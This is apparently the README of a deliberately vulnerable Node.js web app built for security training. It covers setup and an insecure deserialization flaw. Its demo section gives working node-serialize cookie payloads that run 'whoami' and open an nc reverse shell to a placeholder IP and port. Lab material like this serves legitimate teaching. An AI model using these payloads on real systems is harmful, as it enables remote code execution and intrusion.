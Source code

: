 # README

Welcome to the Damn Vulnerable CCX Site!

This is a vulnerable web application designed for educational purposes. It contains intentional security vulnerabilities that you can exploit to learn about common web application vulnerabilities and how to mitigate them.

## Installation

1. Clone the repository: `git clone https://github.com/your-username/Damn-Vulnerable-Web-App.git`
2. Navigate to the server directory: `cd Damn-Vulnerable-Web-App/server`
3. Install dependencies: `npm install`
4. Start the server: `npm start`

## Usage

Once the server is running, you can access the web application by navigating to `http://localhost:3000` in your web browser. Please note that this application is intentionally vulnerable, so only run it in a controlled environment.

## Vulnerabilities

The Damn Vulnerable CCX Site contains various vulnerabilities, including:

- Insecure Deserialization

### Insecure Deserialization
#### Demo Payloads
- Base64 encode these payloads and set as the 'session' cookie value.
- WHOAMI 
 {"username":"_$$ND_FUNC$$_function (){\n \t const exec = require('child_process').execSync;\n \t const output = exec('whoami').toString().trim();\n \t return output ;\n }()"}
 
- REV SHELL
 {"username":"_$$ND_FUNC$$_function (){\n \t const exec = require('child_process').execSync;\n \t const output = exec('rm -f /tmp/f;mkfifo/tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f');\n \t return 'PWND';\n }()"}

Future versions of the application will include additional vulnerabilities, such as:
- Cross-Site Scripting (XSS)
- SQL Injection
- Command Injection
- Path Traversal
- Remote Code Execution
- Cross-Site Request Forgery (CSRF)
- Insecure Direct Object References (IDOR)
- Server-Side Request Forgery (SSRF)
- and more...

TODO:
- [ ] Add additional server-side vulnerabilities
- [ ] Add frontend with client-side vulnerabilities

Please exercise caution when interacting with this application and only perform actions within the scope of your own environment.



